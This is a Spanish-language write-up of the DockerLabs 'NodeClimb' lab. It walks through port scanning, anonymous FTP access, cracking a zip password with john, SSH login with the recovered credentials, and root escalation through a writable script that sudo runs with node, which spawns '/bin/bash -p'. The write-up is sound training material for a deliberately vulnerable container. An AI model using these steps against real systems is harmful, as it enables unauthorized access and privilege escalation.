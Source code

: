 ```yaml
---
title: NodeClimb
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-nodeclimb/nodeclimb_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ftp
  - ssh
  - password_attacks
  - misconfigurations
  - sudo_abuse
  - java_script
  - information_gathering
  - misconfiguration_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.049 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.049/0.049/0.049/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 21/open/tcp//ftp///, 22/open/tcp//ssh///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ nmap -sCV -vvv -p21,22 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd1f3b2dc40b9903e6a35c26f54b47ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIIJXdsH3BqdecsOrKH3q6AQI9zJxHexsJHT+Kam8R4WWmg8g0o7s75qwSx6YvfhFptiXDYcMT6hq7VNs4YnuUg=
|   256 a0d492f69bdb122b77b6b158e07056f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIEGiHc4ywr2G/gO3ihoB+r77LxHnCWOkdfc3n0BiZLQ
MAC Address: E2:9E:09:5F:D0:E6 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---
## Misconfiguration Exploitation

Desde el contenedor puedo conectarme al servicio FTP alojado en el puerto por defecto. Ingreso utilizando el usuario `Anonymous`, sin proporcionar ninguna contraseña.

Dentro del directorio principal encuentro el archivo `secretitopicaron.zip`, el cual descargo.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ftp Anonymous@172.17.0.3 
Connected to 172.17.0.3.
Password: 
230 Login successful.

ftp> ls
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.

ftp> get secretitopicaron.zip
226 Transfer complete.

ftp> quit
221 Goodbye.
```

Al intentar descomprimir el contenido, el archivo zip solicita una contraseña.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password:
```

Para resolver esto, genero un hash con zip2john y utilizo john para obtener la clave en texto plano. El valor revelado es `password1`.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ zip2john secretitopicaron.zip > secretitopicaron.txt

/home/kali/Documents/dockerlabs/nodeclimb:-$ john secretitopicaron.txt
password1        (secretitopicaron.zip/password.txt)
```

Utilizando esa contraseña, accedo finalmente al contenido del zip, que contiene el archivo `password.txt`. Dentro del archivo encuentro las credenciales `mario`:`laKontraseñAmasmalotaHdelbarrioH`.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: password1
 extracting: password.txt

/home/kali/Documents/dockerlabs/nodeclimb:-$ cat password.txt
mario:laKontraseñAmasmalotaHdelbarrioH
```

Luego establezco conexión SSH con el usuario `mario` usando la contraseña obtenida. El acceso es exitoso, y consigo un shell como usuario local dentro del contenedor.

```terminal
/home/kali/Documents/dockerlabs/nodeclimb:-$ ssh mario@172.17.0.3
mario@172.17.0.3's password: laKontraseñAmasmalotaHdelbarrioH

mario@8f2026c76143:~$ id
uid=1000(mario) gid=1000(mario) groups=1000(mario),100(users)
```

---
## Privilege Escalation

```terminal
mario@8f2026c76143:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
mario:x:1000:1000:mario,,,:/home/mario:/bin/bash
```

Inspecciono los permisos disponibles mediante `sudo`, donde identifico que puede ejecutar el binario `/usr/bin/node` sobre el archivo `/home/mario/script.js` con privilegios de `root` y sin necesidad de contraseña.

```terminal
mario@8f2026c76143:~$ sudo -l
Matching Defaults entries for mario on 8f2026c76143:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 8f2026c76143:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

El archivo `script.js` es editable por el usuario actual `mario`, lo que permite introducir código malicioso.

```terminal
mario@8f2026c76143:~$ ls -alh script.js 
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js
```

Para aprovechar esta configuración, sobrescribo el contenido con una línea en JavaScript que lanza una shell con privilegios elevados.

```terminal
mario@8f2026c76143:~$ echo 'require("child_process").spawn("/bin/bash", ["-p"], {stdio: "inherit"})' > script.js
```

Al ejecutar el script con `sudo`, se invoca `Node.js` como `root`, lo que devuelve una shell privilegiada directamente.

```terminal
mario@8f2026c76143:~$ sudo /usr/bin/node /home/mario/script.js

root@8f2026c76143:/home/mario# id
uid=0(root) gid=0(root) groups=0(root)
```
